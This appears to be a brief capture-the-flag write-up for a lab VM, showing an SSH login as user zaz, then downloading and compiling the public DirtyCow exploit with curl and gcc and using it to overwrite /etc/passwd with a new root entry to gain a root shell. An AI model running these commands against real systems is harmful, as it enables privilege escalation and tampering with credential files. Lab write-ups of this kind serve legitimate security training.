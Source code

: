 # writeup4

Connect with zaz:\
*reminder password: 646da671ca01bb5d84dbb5fb2238dc8e*
```
$ ssh zaz@192.168.56.102
```

## Another DirtyCow
```
$ cd /tmp
$ curl https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c --output cow.c
$ gcc -pthread cow.c -o cow
```
This program can modify a file, so we try to modify the file `/etc/passwd` to change the root password.\
password : `p`
```
$ ./cow /etc/passwd "root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash"
$ su root
$ whoami
root
```

The end !
